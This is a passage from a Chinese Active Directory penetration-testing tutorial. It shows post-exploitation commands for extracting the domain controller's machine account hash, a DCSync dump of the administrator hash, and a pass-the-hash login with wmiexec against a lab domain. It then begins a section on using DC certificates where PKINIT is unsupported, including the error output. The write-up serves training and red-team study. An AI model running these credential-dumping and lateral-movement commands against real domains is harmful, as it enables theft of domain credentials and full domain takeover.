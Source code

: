 ![x1NSO0.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-42e745904e6b1f228af56b2f7247d2a8d440d653.png)

后渗透：获取域控机器账户Hash、执行DCSync攻击等

```shell
# 使用getnthash.py脚本得到域控机器账户
KRB5CCNAME=dc01.ccache python3 getnthash.py -key b12ef2da16bdd741749a2ec30e67f0507ba38d7bb72f1c11034bc7160be98e50 hack.lab/DC01$

# 使用secretsdump.py导出Hash
KRB5CCNAME=dc01.ccache python3 secretsdump.py -k hack.lab/DC01\$@DC01.hack.lab -no-pass -just-dc-user administrator

# Hash登录
python3 wmiexec.py -hashes :42e2656ec24331269f82160ff5962387 hack.lab/administrator@DC01.hack.lab -dc-ip 20.20.20.5
```

![x1N9mV.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-0cdf08d35c1138a1971f9c764eed2385090635fc.png)

0x02 域控证书的另类使用
==============

在某些域内的环境中，域控不支持 PKINIT 协议，即不支持使用证书进行预认证，那么这时候获取到的域控证书该如何使用呢？  
下面针对实际情况进行分析及给出一种另类证书使用的思路。

实际情况
----

在上述攻击流程中的第四步中 —— 获得目标 DC 的 TGT，使用域控证书申请 TGT 时，将会出现以下报错信息： `"KDC has no support for PADATA type (pre-authentication data)"`

```shell
$ python3 gettgtpkinit.py -cert-pfx dc01.pfx -dc-ip 20.20.20.5 -v hack.lab/DC01\$ dc01.ccache

2022-09-20 02:57:24,144 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-09-20 02:57:24,532 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/root/Desktop/域渗透工具/gettgtpkinit.py", line 349, in <module>
    main()
  File "/root/Desktop/域渗透工具/gettgtpkinit.py", line 345, in main
    amain(args)
  File "/root/Desktop/域渗透工具/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/usr/local/lib/python3.9/dist-packages/minikerberos/network/clientsocket.py", line 87, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 
```

查阅[微软官网](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)的解释如下：
